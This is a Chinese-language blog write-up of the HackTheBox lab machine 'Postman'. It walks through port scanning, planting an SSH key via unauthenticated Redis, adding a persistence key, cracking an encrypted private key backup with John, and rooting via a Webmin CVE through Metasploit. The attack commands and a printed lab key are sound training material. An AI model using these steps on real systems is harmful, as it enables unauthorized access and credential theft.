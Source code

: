 ```yaml
---
layout: post
title: "[writeup] HTB Postman"
date: 2019-11-30 00:00:00 +0800
author: xiangxiang
categories: HTB writeup
tags: [htb hackthebox writup postman webmin redis CVE]
---
```


 ![](/img/htb-postman-info.JPG){:width="512px"}

## 0x00 信息收集
- 只有ip信息，第一步当然是先扫一下的
{% highlight bash %}
~ # nmap -p- -Pn -vv 10.10.10.160
...
Discovered open port 80/tcp on 10.10.10.160
Discovered open port 22/tcp on 10.10.10.160
Discovered open port 6379/tcp on 10.10.10.160
Discovered open port 10000/tcp on 10.10.10.160
...
{% endhighlight %}

- Web at port 80
    + 一个建设中的网站，dirbuster扫描只发现了几个目录
    + 并没有发现有意思的内容
{% highlight bash %}
/upload
/images
{% endhighlight %}

- Web at port 10000
    + https://10.10.10.160:10000/ 
    + Webmin，需要密码登录

    ![](/img/htb-postman-webmin.JPG)

- Redis at port 6379
    + Redis没有密码的认证保护
    + Redis的默认配置情况
{% highlight bash %}
root@kali:~# redis-cli -h 10.10.10.160 -p 6379 ping
PONG
root@kali:~#
root@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET *
  1) "dbfilename"
  2) "authorized_keys"
  3) "requirepass"
  4) ""
...
165) "dir"
166) "/var/lib/redis/.ssh"
...
(0.54s)
10.10.10.160:6379>
{% endhighlight %}


## 0x01 Redis SSH exploit
- Redis未认证的情况下有多种漏洞利用的方式，大类可以分为这么几种
    1. 直接利用Redis去写文件： 具体的利用方式有写webshell，ssh key，写计划任务等 [参考链接](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)
    2. 利用Master-Slave的`FULLRESYNC`写一个可执行二进制文件并使用`MODULE LOAD`执行: [参考链接](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

- 重置一下Postman的机器可以确认Redis的`dir`和`dbfilename`默认配置就是ssh，可能是机器的创建者给的hint

- 利用Redis写ssh key的时候由于会有其他参与者，需要注意清理环境
{% highlight bash %}
root@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> SLAVEOF NO ONE 
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> KEYS * # make sure it is empty
(empty list or set)
10.10.10.160:6379> FLUSHALL
OK
{% endhighlight %}

- 本地生成ssh key
{% highlight bash %}
root@kali:~/Desktop/Postman# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): ./postman_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./postman_rsa.
Your public key has been saved in ./postman_rsa.pub.
The key fingerprint is:
SHA256:OqJj2doQ+xjcE7zlyByq+cfmYeFLXt9dK16Q/XdfVcs root@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|                .|
|   .         o. o|
|  . = . S   o .E.|
| . O O .     . ..|
|  *+& =       o =|
| o+@=* o . ..o .=|
|oo=**   . ..o.. .|
+----[SHA256]-----+
{% endhighlight %}

- 写入Redis
{% highlight bash %}
root@kali:~/Desktop/Postman# (echo -e "\n\n"; cat postman_rsa.pub; echo -e "\n\n") > temp.txt
root@kali:~/Desktop/Postman# cat temp.txt | redis-cli -h 10.10.10.160 -x set dummy1
OK
{% endhighlight %}

- ssh to redis@10.10.10.160
{% highlight bash %}
root@kali:~/Desktop/Postman# ssh -i postman_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Nov 28 09:23:36 2019 from 10.10.14.188
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
{% endhighlight %}

- persist ssh key
    + 由于同时的使用者很多，authorized_keys文件一直被改，所以得想想办法使得ssh链接稳定一些
    + `/etc/ssh/sshd_config`中发现把key写到`authorized_keys2`中也可以
    + 把本地的ssh公钥复制到`/var/lib/redis/.ssh/authorized_keys2`中

## 0x02 User flag
- [LinEnum](https://github.com/rebootuser/LinEnum) 枚举实际一个有意思的备份文件
{% highlight bash %}
...
[-] Location and Permissions (if accessible) of .bak file(s):
-rwxr-xr-x 1 Matt Matt 1743 Aug 26 00:11 /opt/id_rsa.bak
...
{% endhighlight %}

- 这是一个加密过的RSA私钥，把这个文件拉到本地并使用John来破解
{% highlight bash %}
root@kali:~/Desktop/Postman# scp -i postman_rsa redis@10.10.10.160:/opt/id_rsa.bak ./
id_rsa.bak          100% 1743     2.5KB/s   00:00

root@kali:~/Desktop/Postman# cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----

root@kali:~/Desktop/Postman# wget https://raw.githubusercontent.com/koboi137/john/bionic/ssh2john.py
...
2019-11-28 23:38:36 (72.7 MB/s) - ‘ssh2john.py.1’ saved [7781/7781]

root@kali:~/Desktop/Postman# python ssh2john.py id_rsa.bak > id_rsa.2john

root@kali:~/Desktop/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.2john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:18 DONE (2019-11-28 23:39) 0.05446g/s 781138p/s 781138c/s 781138C/sa6_123..*7¡Vamos!
Session completed

{% endhighlight %}

- Failed SSH with id_rsa
{% highlight bash %}
root@kali:~/Desktop/Postman# chmod 700 id_rsa.bak
root@kali:~/Desktop/Postman# ssh -i id_rsa.bak Matt@10.10.10.160
Enter passphrase for key 'id_rsa.bak':
Connection closed by 10.10.10.160 port 22
{% endhighlight %}

- SSH到redis账户，su至Matt成功，获取user flag
    + Matt账户密码就是rsa私钥的密码

     ![](/img/htb-postman-userflag.jpg)

## 0x03 Root flag
- CVE-2019-12840
- 直接使用metasploit即可
 ![](/img/htb-postman-rootflag.jpg)